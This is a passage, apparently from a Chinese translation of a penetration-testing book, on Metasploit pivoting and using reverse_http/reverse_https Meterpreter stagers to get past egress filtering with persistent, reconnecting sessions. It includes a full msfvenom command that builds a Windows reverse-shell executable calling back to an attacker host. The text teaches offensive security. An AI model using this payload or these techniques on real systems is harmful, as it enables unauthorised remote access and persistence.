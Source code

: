 
正如前面的截图所示，pivot 是成功的，我们现在在 metasploit 中打开了另一个会话。这通过**本地管道**|**远程管道**参考反映。完成信息审查后，输入`sessions`以显示会话信息。以下屏幕截图显示了此结果的示例：

![Pivoting](img/477-1_12_23.jpg)

## 代理利用

在本节中，我们将研究 metasploit 工具使用 HTTP 和 HTTPS 进行通信的能力。通常针对我们部署的防御措施之一是出口或出站流量的概念。现在，常见的情况是站点只允许出站 HTTP 和 HTTPS 流量；因此，metasploit 的开发人员为此创建了模块。

## 利用客户端配置

当我们使用技术来利用与攻击者机器的通信时，我们将读取客户端配置，然后通过在那里配置的代理发送通信量。传统上，这是一个困难的过程，需要花费相当多的时间来设置。因此，时间量和通信要求增加了被检测到的机会或会话定时中断的机会。幸运的是，我们可以探索其他选项来帮助我们实现这一点。metasploit 的开发人员创建了两个阶段，允许我们利用客户机配置，并且他们在 Meterpeter 外壳中对 HTTP 和 HTTPS 通信都有本机支持。此外，这些 stager 还提供了设置大量不同选项的功能，这些选项允许在指定的时间段内通过设置会话的过期日期来重新连接 shell。

这两个阶段是**反向【http】**和**反向【https】**。这两个阶段的独特之处在于，它们不与特定的 TCP 会话相关联，也就是说，它们提供了基于数据包的事务处理方法，而其他选项是基于流的。这就为攻击提供了一组更强大的选项。此外，我们还提供了三个选项来帮助我们确定用户何时完成操作，如下所示：

*   到期日期：默认为一周
*   **生存时间****TTL**：默认为 5 分钟
*   暴露的 API 核心：使用 detach 命令退出但不终止会话

这些参数允许我们断开与会话的连接，并在以后自动重新连接。它们还允许我们将负载设置为持久侦听器，然后连接到它，即使目标重新启动或关闭。我们现在将对此进行探讨。

在本例中，我们将使用恶意可执行文件。我们可以使用许多不同的载体，如 web、电子邮件或 USB，但为了更简单的选择，我们将使用恶意可执行文件。此外，我们将使用一个特殊的工具来创建有效负载。如果未运行 metasploit，请输入`msfconsole`以启动工具。工具启动后，输入`msfvenom -p windows/meterpreter/reverse_https -f exe LHOST=192.168.177.170 LPORT=4443 > https.exe`创建名为`https.exe`的可执行文件。以下屏幕截图显示了该命令的输出示例：

![Leveraging the client configuration](img/477-1_12_24.jpg)
